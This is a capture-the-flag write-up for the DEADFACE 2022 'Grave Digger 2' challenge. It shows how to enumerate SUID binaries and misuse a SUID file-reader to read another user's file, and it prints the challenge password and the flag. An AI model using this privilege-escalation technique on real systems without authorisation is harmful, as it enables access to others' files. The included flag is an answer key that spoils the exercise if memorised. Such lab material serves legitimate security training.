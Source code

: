 ```yaml
---
# Obsidian
tags:
- ctf
- 2022-deadface
- pwn
- linux

# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2022-deadface
category: pwn
title: Grave Digger 2
points: 100
solved: true
---
```


# Grave Digger 2

## Instructions

A member of DEADFACE has a sensitive file on `d34th`'s machine. See if you can find a way to read the `gravedigger2` file. Submit the flag as `flag{flag text}`.

env.deadface.io Password: `123456789q`

_Use context from **[Grave Digger 1](Grave%20Digger%201)**_

## Solution

Search for SUID files in the container:

```
crypto_vamp@da4c4c0c34da:~$ find / -perm /4000 2>/dev/null
/bin/mount
/bin/umount
/bin/su
/opt/reader
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
```

We find `/opt/reader` and discover that it can be executed as lilith:
```
crypto_vamp@da4c4c0c34da:~$ ls -lah /opt/reader
-rwsr-xr-x 1 lilith lilith 13K Sep 25 16:28 /opt/reader
```

Search for files in lilith's home directory we see 
```
crypto_vamp@da4c4c0c34da:~$ find /home/lilith -type f
/home/lilith/Documents/gravedigger2.png.txt
/home/lilith/Documents/gravedigger2
```

Using the `-h` flag on the `/opt/reader` program shows us how to use the binary.
```
crypto_vamp@da4c4c0c34da:~$ /opt/reader -h 
Reader v1.3.1. Built for collaboration with new recruits.

Syntax: reader [OPTIONS] [FILENAME | ARGUMENTS]
Options:
-h		View this help information.
-f FILENAME	Read the contents of a file.
-v		View version information

man reader for more information.
crypto_vamp@da4c4c0c34da:~$ /opt/reader -f /home/lilith/Documents/gravedigger2
█████████████████████████████████████
█████████████████████████████████████
████ ▄▄▄▄▄ █▄██▄█▀▀▄▀██▀ █ ▄▄▄▄▄ ████
████ █   █ █▀ ▀█ ▀  ▀▄▄▄▄█ █   █ ████
████ █▄▄▄█ █   ▀▀▀█▄▄▀▀▀██ █▄▄▄█ ████
████▄▄▄▄▄▄▄█ ▀▄█▄█ ▀▄▀ █▄█▄▄▄▄▄▄▄████
████ ▀▀█ █▄ ▄▀ ▀ ▄ ▀▄▄▄▄▀  ▄ ▄▀█ ████
█████ █  █▄▀ █▀██ ▄ ▀ ▀▀▄ ▄██ ▄█ ████
████ ▀  █ ▄▄ █▀█  ▀▀▄▄▄▄▀▀▀▄▀▀██▀████
████▄▀ ▀▀▄▄▀ ▀ ███▀ ▄▀▄▀▀█▄▄▄ ▄▀ ████
████▀▄▀ ▄█▄▀█▄▀▄█▄▄▀▄▄▄▄▄▀▀▄▀▄▀▄ ████
██████▄█ ▀▄█▄██ ▄ ▄▄▄ ▄██▄▀▀███▀▄████
████▄▄█▄█▄▄█ ▄██▀ ▀▀▄▄▄▄ ▄▄▄ ▀▀▄▀████
████ ▄▄▄▄▄ █▄ ▀  █▀▄ ▀▀▄ █▄█ ▄█▀▄████
████ █   █ █▄▄█▄  ▄▀▀▄▄  ▄▄ ▄▀▀▄▀████
████ █▄▄▄█ ██▀ █▀█▀▄▀  ▄▀▀▀▄███  ████
████▄▄▄▄▄▄▄█▄▄▄██▄▄█▄▄▄█▄▄▄████▄█████
█████████████████████████████████████
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
```

Reading the contents of this QR code gets us the flag as embedded text.

```
flag{d1091652793d0f31f53164353b6414e9}
```

## Continued On

[Grave Digger 3](Grave%20Digger%203)
